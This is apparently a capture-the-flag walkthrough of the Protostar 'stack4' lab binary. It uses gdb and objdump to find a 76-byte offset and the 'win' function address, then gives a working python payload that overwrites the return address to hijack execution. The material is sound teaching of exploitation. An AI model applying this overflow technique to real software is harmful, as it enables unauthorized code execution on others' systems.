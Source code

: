 What happens if we modify this value on the stack before it's placed into EIP...
we'll control execution.

Let's find how many bytes we must overwrite to reach the Return Address:

```sh
(gdb) b *main + 21
(gdb) run
AAAAAAAAAA
(gdb) x/30x $esp
0xbffff750:	0xbffff760	0xb7ec6165	0xbffff768	0xb7eada75
0xbffff760:	0x41414141	0x41414141	0xbf004141	0x080482c4
0xbffff770:	0xb7ff1040	0x0804958c	0xbffff7a8	0x08048409
0xbffff780:	0xb7fd8304	0xb7fd7ff4	0x080483f0	0xbffff7a8
0xbffff790:	0xb7ec6365	0xb7ff1040	0x080483fb	0xb7fd7ff4
0xbffff7a0:	0x080483f0	0x00000000	0xbffff828	0xb7eadc76
0xbffff7b0:	0x00000001	0xbffff854	0xbffff85c	0xb7fe1848
0xbffff7c0:	0xbffff810	0xffffffff
(gdb) p $ebp
$8 = (void *) 0xbffff7a8
(gdb) x/x $ebp
0xbffff7a8:	0xbffff828
(gdb) p/d $ebp - 0xbffff760
$9 = 72
(gdb) p/d $ebp - 0xbffff760 + 4
$10 = 76
```

When outputting the stack we can see our buffer starts at **0xbffff760**. The
base of or frame is at **0xbffff7a8**, and then we add 4 to skip over the
*saved frame pointer*.

0xbffff7a8 - 0xbffff760 + 4 = 76

This means after writing 76 bytes, we should start overwriting the Return
Address, and thus controlling where execution will resume when returning.

Now, let's find the address of the function we want to call.

```sh
user@protostar:/opt/protostar/bin$ objdump -d stack4 | grep win
080483f4 <win>:
```

Alright, the address we want to set EIP to is 0x080483f4.

Our attack should thus be as follows:

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault
```

Don't forget, little endian, thus the address of the buffer in the stack turns
into \xf4\x83\x04\x08.

The program may have crashed, but hey, we executed what we wanted to first.
